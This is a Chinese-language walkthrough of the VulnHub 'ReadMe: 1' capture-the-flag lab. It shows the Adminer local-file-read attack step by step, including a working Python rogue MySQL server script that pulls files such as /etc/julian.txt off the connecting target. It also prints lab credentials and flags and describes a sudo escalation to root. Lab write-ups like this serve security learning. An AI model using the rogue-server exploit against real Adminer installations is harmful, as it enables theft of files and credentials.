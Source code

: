 # ReadMe: 1

2025.02.22 https://www.vulnhub.com/entry/readme-1,336/

[video](https://www.bilibili.com/video/BV1N8PHeqEhx/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

web 扫描发现 http://192.168.5.40/info.php 是 phpinfo 页面，mysql 版本 mysqlnd 5.0.12-dev ，仔细看一下 info.php 中 mysql 的配置信息，发现 mysqli.allow_local_infile = on 这里就可以加载客户端所在系统的文件到数据库，同时 open_basedir 没有设置。

发现另外一个页面 http://192.168.5.40/adminer.php 是个数据库管理页面，同时发现版本是 4.4.0 。这里就可以结合上面的配置，读取运行 adminer 网页的系统上的文件，前提是只要这个 adminer 能够连接远程的 mysql 服务就可以，adminer 默认开启远程连接。在 adminer 的后续高版本 4.6.3 上已经修复了这个本地读取的漏洞。

发现 http://192.168.5.40/reminder.php 里面说密码在 txt 文件中，然后下面是一个搜索 username 的搜索框，输入单引号报错，存在 sql 注入，直接使用 sqlmap 跑，但是没发现信息，查看源码，发现图片的路径有提示：

```
that-place-where-i-put-that-thing-that-time/565b0f4691fe5
```

发现了目录的名字 that-place-where-i-put-that-thing-that-time，打开这个目录链接 http://192.168.5.40/that-place-where-i-put-that-thing-that-time/ 发现 creds.txt：

```
creds.txt -> /etc/julian.txt
```

这里需要读取到这个 /etc/julian.txt 文件。

可以利用 adminer 远程连接我们自己搭建的 mysql，然后利用 load local data 读取到目标机器上的 /etc/julian.txt 文件到我们自己搭建的数据库。

在 kali 上授权远程数据库连接，创建 test 数据库和 test 表用于接收数据：

```
grant all privileges on *.* to 'root'@'%' identified by 'mysql';

create database test;
use test;
create table test(name varchar(500));

SET GLOBAL local_infile = true;
SHOW GLOBAL VARIABLES LIKE 'local_infile';  # 要保证自己搭建的mysql开启这个参数
+---------------+-------+
| Variable_name | Value |
+---------------+-------+
| local_infile  | ON    |
+---------------+-------+
```

在 adminer.php 上连接我们自己 kali 上的数据库(这里服务器地址填 kali 的 ip 地址)，在 adminer 中执行下面语句导入本地文件：

```
load data local infile '/etc/julian.txt' into table test;    # 读取mysql客户端也就是运行adminer.php的机器上的本地文件到数据库。不加local是读取mysql服务器的文件，添加local参数为读取client本地文件。
```

这时在读取这个表就能看到 julian 的 ssh 连接密码：

```
select * from test;
+-----------------------------------------------------------------------------+
| name                                                                        |
+-----------------------------------------------------------------------------+
| U: julian                                                                   |
| P: I_mean...WhoThoughtLettingTheMySQLClientTransmitFilesWasAGoodIdea?Sheesh |  <-- ssh的连接密码
+-----------------------------------------------------------------------------+
```

或者自己用 python 搭建一个 mysql 的模拟服务端，也可以读取文件：

```
import socket
import logging
import sys
logging.basicConfig(level=logging.DEBUG)

filename=sys.argv[1]
sv=socket.socket()
sv.setsockopt(1,2,1)
sv.bind(("",33060))
sv.listen(5)
conn,address=sv.accept()
logging.info('Conn from: %r', address)
conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
conn.recv(9999)
logging.info("auth okay")
conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
conn.recv(9999)
logging.info("want file...")
wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename
conn.sendall(wantfile)
content=conn.recv(9999)
logging.info(content)
conn.close()
```

使用 python2 运行上述脚本，然后在 adminer.php 上进行连接，server 输入 192.168.5.3:33060 , 用户名和密码随意输，直接点 login

```
python2 exp.py '/etc/julian.txt'

INFO:root:Conn from: ('192.168.5.40', 43350)
INFO:root:auth okay
INFO:root:want file...
INFO:root:VU: julian
P: I_mean...WhoThoughtLettingTheMySQLClientTransmitFilesWasAGoodIdea?Sheesh
```

这里有这个漏洞的详细解析：https://wiki.96.mk/Web%E5%AE%89%E5%85%A8/Adminer/Adminer%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/

也可以直接使用这个 https://github.com/p0dalirius/CVE-2021-43008-AdminerRead exp 的利用。

登陆后拿到了 user flag：

```
julian@readme:~$ cat  user.txt
2e640cbe2ea53070a0dbd3e5104e7c98
```

julian 没有 sudo 权限，同时其他 suid 和 crontab 等都没有利用路径。

这里在另外一个用户 /home/tatham 中发现了 payload.bin 和 poc.c ，根据文件命名，像是提权提示。需要得到 payload.bin 中的 shellcode 信息，将 payload 中的二进制代码复制到 poc.c 中进行编译，并且用 gdb 做了一些汇编代码修复。

最终得到了该用户的登陆密码：

```
U28uLi5Zb3VGaWd1cmVkT3V0SG93VG9SZWNvdmVyVGhpc0h1aD9HR1dQbm9SRQ==
```

对上面进行 base64 解码得到密码：

```
So...YouFiguredOutHowToRecoverThisHuh?GGWPnoRE
```

切换到 tatham 后，sudo -l 发现是 ALL 可以直接提权到 root：

```
root@readme:~# cat root.txt
52eeb6cfa53008c6b87a6c79f4347275
```
